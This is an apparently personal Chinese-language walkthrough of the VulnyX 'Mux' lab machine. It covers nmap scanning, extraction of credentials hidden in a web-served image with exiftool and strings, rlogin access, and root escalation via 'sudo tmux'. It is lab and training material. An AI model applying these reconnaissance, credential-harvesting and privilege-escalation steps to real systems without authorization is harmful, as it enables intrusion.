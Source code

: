 # 环境

来自[vulnyx_Mux](https://vulnyx.com/#Mux)，图片隐写，拿到账号密码

# 信息收集

## 主机发现

```bash
sudo nmap -sn 192.168.88.0/24
```

![image-20240725110125671](image/image-20240725110125671.png)

## 端口扫描

```bash
sudo nmap -sT -r -p- 192.168.88.36
```

![image-20240725110233231](image/image-20240725110233231.png)

## 服务探测

```bash
sudo nmap -sV -sC -O -p80,512,513,514 192.168.88.36

512：在某些系统中，512端口可能被用于远程登录（如rlogin），但这种情况较少见。
513：513端口通常用于远程登录（rlogin），这是一种旧的远程登录协议，类似于telnet，但提供了更少的安全性。
514：514端口通常用于远程命令执行（rsh），这也是一种旧的协议，类似于SSH，但安全性较低。
```

![image-20240725110641679](image/image-20240725110641679.png)

目录扫描无果

# web渗透

## 图片隐写拿到密码

访问80，是一张图片，下载下来

```bash
exiftool image.jpg
strings image.jpg
```

![image-20240725111346334](image/image-20240725111346334.png)

![image-20240725111857232](image/image-20240725111857232.png)

发现账号密码`lisa:My_$3cUr3_RSH_p@zz`和`lisa:Gi0c0nd@`，因为513端口是login，尝试登录

```bash
rlogin lisa@192.168.88.36
```

![image-20240725111953820](image/image-20240725111953820.png)

## 提权

```bash
sudo -l
```

![image-20240725112037360](image/image-20240725112037360.png)

[tmux提权](https://gtfobins.github.io/gtfobins/tmux/)

```bash
sudo tmux
```
